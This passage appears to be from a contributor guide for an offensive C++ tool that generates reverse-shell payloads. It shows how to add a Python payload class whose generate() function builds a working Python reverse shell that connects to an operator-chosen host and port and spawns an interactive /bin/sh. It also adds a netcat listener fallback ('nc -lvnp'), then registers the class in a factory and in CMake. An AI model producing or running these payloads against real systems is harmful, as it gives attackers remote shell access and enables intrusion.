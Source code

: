 ```cpp
```

### Step 2: Implement the Payload Class

Create the corresponding implementation file:

```cpp
// src/payloads/implementations/Python_Payload.cpp
#include "Python_Payload.h"
#include "../../listeners/ListenerFactory.h"

std::string PythonPayload::name() const {
    return "python";
}

std::string PythonPayload::generate(const Options& opts) const {
    // Generate Python reverse shell payload
    return "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"" + 
           opts.host + "\"," + std::to_string(opts.port) + "));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'";
}

std::string PythonPayload::listener(const Options& opts) const {
    ListenerFactory factory;
    IListener* listener = factory.get(opts.listenerType);
    return listener ? listener->command(opts) : "nc -lvnp " + std::to_string(opts.port);
}
```

### Step 3: Register the Payload

Add your payload to the factory in `PayloadFactory.cpp`:

```cpp
// In PayloadFactory constructor
PayloadFactory::PayloadFactory() {
    // Existing registrations...
    registry_["python"] = std::make_unique<PythonPayload>();
}
```

### Step 4: Update CMake Build Configuration

Add your new payload files to the appropriate CMakeLists.txt:

```cmake
# In src/payloads/CMakeLists.txt
set(PAYLOAD_SOURCES
    PayloadFactory.cpp
    implementations/Python_Payload.cpp
    # Add other existing implementations...
)

# In src/listeners/CMakeLists.txt  
set(LISTENER_SOURCES
    # Header-only implementations, add if needed
)
```
